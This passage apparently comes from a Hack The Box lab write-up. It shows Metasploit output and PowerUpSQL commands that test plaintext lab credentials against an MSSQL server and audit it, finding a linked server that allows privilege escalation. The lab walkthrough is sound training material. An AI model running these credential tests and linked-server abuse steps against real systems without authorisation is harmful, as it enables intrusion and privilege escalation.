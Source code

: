 ```
[*] 10.13.38.11:1433 - Default Server Instance SQL Server Service is running under the privilege of:
[*] 10.13.38.11:1433 - 	xp_regread might be disabled in this system
[*] Auxiliary module execution completed
```

## PowerUpSQL and MSSQL linked servers

For the next parts, we'll use a Windows 10 machine.

![MSSQL login](/assets/images/htb-writeup-poo/Screenshot_1.png)

Since our local attacker machine is not domain joined and we don't have access to the domain controller, we'll define the instance manually and test the credentials:

```
PS C:\Users\snowscan> $user = "external_user"
PS C:\Users\snowscan> $pass = "#p00Public3xt3rnalUs3r#"
PS C:\Users\snowscan> $i = "10.13.38.11,1433"
PS C:\Users\snowscan> get-sqlservercredential -verbose -instance $i -username $user -password $pass
VERBOSE: 10.13.38.11,1433 : Connection Success.
```

Next, we start auditing the configuration for weak permissions and such. We find that there is a linked server which we can access.

```
PS C:\Users\snowscan> Invoke-SQLAuditPrivServerLink -verbose -instance $i -username $user -password $pass
VERBOSE: 10.13.38.11,1433 : START VULNERABILITY CHECK: Excessive Privilege - Server Link
VERBOSE: 10.13.38.11,1433 : CONNECTION SUCCESS.
VERBOSE: 10.13.38.11,1433 : - The COMPATIBILITY\POO_CONFIG linked server was found configured with the internal_user login.
VERBOSE: 10.13.38.11,1433 : COMPLETED VULNERABILITY CHECK: Excessive Privilege - Server Link


ComputerName  : 10.13.38.11
Instance      : 10.13.38.11,1433
Vulnerability : Excessive Privilege - Linked Server
Description   : One or more linked servers is preconfigured with alternative credentials which could allow a least privilege login to escalate their privileges on a
                remote server.
Remediation   : Configure SQL Server links to connect to remote servers using the login's current security context.
Severity      : Medium
IsVulnerable  : Yes
IsExploitable : No
Exploited     : No
```